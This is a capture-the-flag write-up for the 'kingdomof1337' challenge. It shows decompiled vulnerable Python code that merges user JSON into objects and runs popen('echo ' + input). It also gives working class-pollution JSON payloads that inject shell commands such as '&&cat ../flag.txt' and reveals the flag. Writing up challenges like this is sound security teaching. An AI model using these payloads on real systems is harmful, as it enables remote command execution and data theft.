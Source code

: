 # kingdomof1337

## Challenge
The Target is to get the flag that is somewhere on the server where vuln.py is running. The servers vuln.py could be run by connecting to it using netcat. A pyc file of vuln.py was provided.

## Solution
Using a pyc decompiler like pycdc, one can get most of the python code of vuln.py. using a debugger like trepan-xpy, one can understand it further (see `decompiled.py` for my decompilation). The important functions are `run_message` and `King.modt`:
```python
class King(Kingdom):    
    def motd(self):
        say = self.shout if hasattr(self, 'shout') else 'I have no messages today.'
        if not hasattr(self, 'shout'):
            return say

        return f'''{popen('echo ' + say).read().strip()}!'''


def run_message(src, dst):
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                run_message(v, dst.get(k))
                continue
            dst[k] = v
            continue
        if hasattr(dst, k) and type(v) == dict:
            run_message(v, getattr(dst, k))
            continue
        setattr(dst, k, v)
```
After creating instances of the classes `Pawn` and `King` and after checking if the users input is in json format and converting it to a dict, the `run_message` function will be called, with the dict as first arg, and the pawn instance as second arg. Afterwards, `king.modt` will be called (`king` is the instance of `King`).

We want `king.modt` to return `f'''{popen('echo ' + say).read().strip()}!'''`, so we can inject bash code. Therefore, we somehow need to add a `shout` attribute to king during `run_message`. This can be accomplished using following json:
```json
{"__class__":{"__base__":{"__base__":{"__base__":{"shout":"our_message"}}}}}
```

Why does this work? Well, i won't tell you. You will probably learn more if you try to understand it yourself. You can use google and a debugger like trepan-xpy.

next, we take a look on how the king shouts our message. it uses:<br />
`popen("echo " + say).read().strip()`  <br />
So, it just runs the bash command 'echo our_message'. We can easily inject some code there, for example by using:<br />
`{"__class__":{"__base__":{"__base__":{"__base__":{"shout":"&&ls"}}}}}`<br />
to get the files in the current directory. using:<br />
`{"__class__":{"__base__":{"__base__":{"__base__":{"shout":"&&ls ../"}}}}}`<br />
we see where the flag is, and print it using:<br />
`{"__class__":{"__base__":{"__base__":{"__base__":{"shout":"&&cat ../flag.txt"}}}}}`  <br />
<br />
It outputs the flag: DBH{p0llu710n_15_n0t_jU57_4_j4v45cr1p7_th1nG}
